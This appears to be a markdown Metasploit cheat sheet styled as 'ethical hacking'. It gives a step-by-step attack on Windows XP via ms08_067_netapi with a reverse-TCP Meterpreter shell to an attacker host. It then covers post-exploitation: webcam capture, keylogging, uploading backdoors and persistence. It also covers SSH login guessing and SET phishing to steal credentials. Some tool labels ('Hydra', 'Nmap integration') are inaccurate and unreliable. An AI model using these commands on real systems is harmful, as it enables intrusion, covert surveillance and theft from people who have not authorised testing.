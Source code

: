 ## 🕵️ Basic Metasploit Commands  

### 📌 **Start & Update**  
Start Metasploit:  
```bash
msfconsole
```
Update Metasploit:  
```bash
msfupdate
```

### 🔍 **Search for Exploits**  
```bash
search windows/smb
```
✅ Lists exploits related to **Windows SMB vulnerabilities**.  

### 📂 **Select and Use an Exploit**  
```bash
use exploit/windows/smb/ms08_067_netapi
```
✅ **This exploit targets a famous Windows XP vulnerability.**  

---

## 🎯 **Real Attack Scenario (Windows XP Exploit)**  

**Target:** Windows XP SP2  
**Vulnerability:** SMB (ms08_067_netapi)  

### 1️⃣ **Select the Exploit**  
```bash
use exploit/windows/smb/ms08_067_netapi
```

### 2️⃣ **Check Exploit Options**  
```bash
show options
```

### 3️⃣ **Set Target IP**  
```bash
set RHOST 192.168.1.100
```

### 4️⃣ **Choose Payload (Use Meterpreter!)**  
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.200
set LPORT 4444
```
✅ **This sets up a reverse shell using Meterpreter.**  

### 5️⃣ **Launch the Attack!**  
```bash
exploit
```
✅ **If successful, you will gain full control over the target system!**  

---

## 🔥 **Meterpreter Commands (Full Control Over Target!)**  

Once inside, Metasploit opens an **interactive Meterpreter shell**.  
```bash
sysinfo           # Get system information
getuid           # Check user privilege level
shell            # Open a full shell on the target
screenshot       # Take a screenshot of the target screen
webcam_snap      # Capture an image using the target's webcam
keyscan_start    # Start a keylogger
download file.txt # Download a file from the target system
upload shell.exe  # Upload a backdoor or malware
```

---

## 🛡️ **Auxiliary Modules (Extra Features!)**  

Metasploit is more than just an exploit tool!  

🔍 **Nmap Integration (Network Scanning)**  
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run
```
✅ **Scans for open ports on the entire network.**  

🔓 **Hydra for SSH Brute-Force Attack**  
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.100
set USERNAME root
set PASSWORD password123
run
```
✅ **Attempts to brute-force SSH login credentials.**  

---

## 🚀 **Post-Exploitation (After Gaining Control!)**  

Once you have access to the target, Metasploit can help you **maintain access and extract data.**  

💻 **Create a Persistent Backdoor**  
```bash
run persistence -A
```
✅ **Ensures Metasploit reconnects every time the system reboots!**  

📷 **Use the Target's Webcam**  
```bash
webcam_snap
```
✅ **Takes a snapshot using the target’s webcam.**  

⌨️ **Start a Keylogger**  
```bash
keyscan_start
```
✅ **Records every keystroke typed on the target system!**  

---

## 🔥 **Social Engineering Toolkit (SET) - Phishing Attacks**  

Metasploit integrates with the **Social Engineering Toolkit (SET)** for phishing attacks.  

📧 **Send Fake Emails (Phishing Attack)**  
```bash
setoolkit
```
✅ **Generate fake login pages and emails to steal credentials.**  

---

## 📌 **Summary**  

✅ **Metasploit is one of the most powerful penetration testing tools!**  
✅ **It follows multiple attack phases: Exploitation, Payload Injection, and Post-Exploitation.**  
✅ **Use Meterpreter for stealth access to target systems.**  
✅ **It integrates with tools like Hydra, Nmap, and SET.**  

📌 **For more details:**  
🔗 [Metasploit Official Documentation](https://docs.metasploit.com/)  
🔗 [Metasploit GitHub](https://github.com/rapid7/metasploit-framework)  

🚀 **Happy Ethical Hacking!** 😃🔥  
